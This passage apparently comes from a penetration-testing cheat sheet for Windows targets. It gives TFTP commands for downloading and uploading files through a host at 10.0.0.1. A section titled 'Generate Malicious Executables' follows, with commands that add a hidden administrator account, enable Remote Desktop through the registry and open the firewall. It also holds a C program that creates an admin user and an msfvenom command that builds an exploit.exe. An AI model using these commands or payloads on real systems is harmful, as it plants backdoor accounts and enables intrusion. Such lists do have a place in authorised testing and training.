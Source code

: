 Then execute the commands in the file with the following command:
```
ftp -A -s:ftp.txt
```
## TFTP
### Downloading files
```
tftp -i 10.0.0.1 GET file.exe
```
### Uploading files
```
tftp -i 10.0.0.1 PUT file.exe
```
# Generate Malicious Executables
## Malicious code
### Cmd
#### Run executable in backgroud
```
start /B program
```
#### Add Admin & Enable RDP
```
net user /add hacked Password1
net localgroup administrators hacked /add
net localgroup Administrateurs hacked /add (For French target)
net localgroup "Remote Desktop Users" hacked /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service type = REMOTEDESKTOP mode = ENABLE scope = CUSTOM addresses = 10.0.0.1
```
### C Code
#### Addadmin.c
```
#include <stdlib.h>

int main ()
{

	int i;

	i = system ("net user evil Ev!lpass /add");
	i = system ("net localgroup administrators evil /add");

		return 0;
}
```
## Exe builder
### MsfVenom (cmd)
\*Note: On x64 machine you should use bat2exe.bat to create 64 bit executable\*
```
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o exploit.exe
```
### GCC (C Code)